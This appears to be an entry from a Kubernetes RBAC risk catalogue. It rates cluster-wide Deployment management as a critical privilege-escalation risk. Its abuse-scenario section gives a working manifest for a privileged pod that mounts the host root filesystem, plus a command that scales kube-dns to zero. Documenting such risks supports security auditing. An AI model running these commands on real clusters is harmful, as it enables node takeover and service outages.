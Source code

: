 ```yaml
---
id: 1033
title: "Manage Deployments cluster-wide (potential for privileged pod execution)"
description: "Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1033                                                                                                                |
| Name          | Manage Deployments cluster-wide (potential for privileged pod execution)                                            |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | apps                                                                                                                |
| Resources     | deployments                                                                                                         |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads.

## Abuse Scenarios

1. Create a new Deployment with a privileged pod template.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: privileged-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: privileged-app
  template:
    metadata:
      labels:
        app: privileged-app
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Scale a critical deployment to zero replicas, causing denial of service.

```bash
kubectl scale deployment <deployment-name> -n <namespace> --replicas=0
# Example: kubectl scale deployment kube-dns -n kube-system --replicas=0

```
